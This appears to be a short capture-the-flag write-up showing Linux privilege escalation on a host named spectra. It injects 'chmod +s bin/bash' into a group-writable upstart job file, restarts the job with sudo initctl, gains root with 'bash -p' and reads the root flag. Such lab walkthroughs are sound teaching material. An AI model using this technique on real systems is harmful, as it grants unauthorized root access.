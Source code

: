 // We can see there few files that group developers have read and write permissions on 

// First we need to stop the process(if running)

    katie@spectra /etc/init $ sudo /sbin/initctl stop test
    test stop/waiting

// Lets try to inject an elevated permissions /bin/bash script to one of them 

    katie@spectra /etc/init $ vi test.conf 
    katie@spectra /etc/init $ cat test.conf 

    description "Test node.js server"
    author      "katie"

    start on filesystem or runlevel [2345]
    stop on shutdown

    script
    chmod +s bin/bash
    end script

// Now we can run it with sudo

    Katie@spectra /etc/init $ sudo /sbin/initctl start test
    test start/running, process 4779

    katie@spectra /etc/init $ /bin/bash -p
    bash-4.3# id
    uid=20156(katie) gid=20157(katie) euid=0(root) egid=0(root) groups=0(root),20157(katie),20158(developers)

// And we got root!!! And the flag !

    bash-4.3# cd /root/
    bash-4.3# cat root.txt 
    d4451971...............


